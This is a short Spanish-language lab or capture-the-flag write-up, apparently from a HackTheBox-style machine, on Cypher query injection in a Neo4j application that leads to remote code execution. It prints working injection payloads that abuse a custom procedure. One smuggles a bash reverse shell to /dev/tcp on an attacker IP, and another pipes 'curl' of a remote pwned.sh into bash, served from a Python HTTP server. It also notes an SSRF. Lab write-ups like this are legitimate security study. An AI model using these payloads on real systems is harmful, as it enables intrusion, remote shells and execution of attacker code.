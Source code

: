 Con esto podemos mandarnos una reverse shell 

# Cypher Injection

Par realizar esta RCE( Remote Code Execution ) a través de Cypher podemos intentar mandarnos la rever shell desde la inyección pero no funciona 

Not Work:
```Cypher
admin' return h.value AS hash UNION CALL custom.getUrlStatusCode('127.0.0.1; bash -i >%26 /dev/tcp/10.10.14.255/443 0>%261') YIELD statusCode AS hash RETURN hash ; //
```

Por ende la query que inyectaremos a continuación, cargara un archivo desde nuestra maquina, para que después lo ejecute 

Primero para probar iniciaremos un servidor con Python 

```bash 
pyhton3 -m http.server 80
```  

Después le mandaremos la siguiente query 

  ```Cypher
admin' return h.value AS value  UNION CALL custom.getUrlStatusCode(\"127.0.0.1;curl 10.10.xx.xx/pwned.sh|bash;\") YIELD statusCode AS value  RETURN value ; //
```  

![paste](./images/7.jpeg)

y en el servido deberemos de tener una solicitud para el archivo pwned.sh, esto tambien nos quiere decir que también es vulnerable a un SSFR (Server-side request forgery)
